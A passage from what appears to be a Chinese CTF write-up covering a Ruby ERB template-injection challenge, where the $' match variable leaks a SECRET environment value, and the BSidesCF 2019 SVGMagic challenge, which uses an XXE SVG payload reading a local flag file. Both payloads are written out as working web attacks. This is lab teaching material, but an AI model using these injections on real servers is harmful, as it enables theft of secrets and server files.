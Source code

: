 看大佬博客才知道这里是Ruby ERB模板注入
注入方式为`通过<%=%>进行模板注入`

`ruby <%= 7 * 7 %>`返回49

`?name=<%=$'%>&do=<%=$' is working%>&SECRET=
`
alert时返回的内容只匹配七个字符，想写完整的`”SECRET“`获取其内容不太可能，但是有预定义的`$'`可以返回上一次正则匹配内容之后的所有内容

此句话之前的最后一个匹配模式在
```ruby
unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end

```

所以返回的是密钥SECRET
还有一个条件要求`if params[:do] == "#{params[:name][0,7]} is working" then`
所以要传do参数包含name参数的值

最终

`?name=<%=$'%>&do=<%=$'%> is working&SECRET=
`

这样name获取到SECRET值，do也获取到name的值，就能利用后面的
`ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result`
进行密钥弹窗了

![在这里插入图片描述](https://img-blog.csdnimg.cn/6ed2860ae44942cc8ecd682904c52504.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/59b33194ab42446ca7fa004ccaa4c8ab.png)
`79beba3e0c7543b51ad5cca62b1f1c259326cc7a60d69fe2c1db696dd70c62502c34b5000d6995c1c75c908f2ee91f6c767de1fdb79f11905c4d7bd6ea8325b1`

![在这里插入图片描述](https://img-blog.csdnimg.cn/4b7bafe3450d447e80a1fcb20f7d02d1.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/d6adf40f8c6a4ef892fb4ab5882894bc.png)
返回了一个新的jwt，解密
![在这里插入图片描述](https://img-blog.csdnimg.cn/c73ebb121afc4b48a35bf40bced121d4.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a843af32273c4dbd90fbceade8191359.png)
# [BSidesCF 2019]SVGMagic

>[BUUCTF--[BSidesCF 2019]SVGMagic](https://blog.csdn.net/qq_46263951/article/details/118999618)

SVG图像使用XML文件格式

![在这里插入图片描述](https://img-blog.csdnimg.cn/b5c2c3468505456cbc219af378db7bad.png)
构造xxe

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>

```
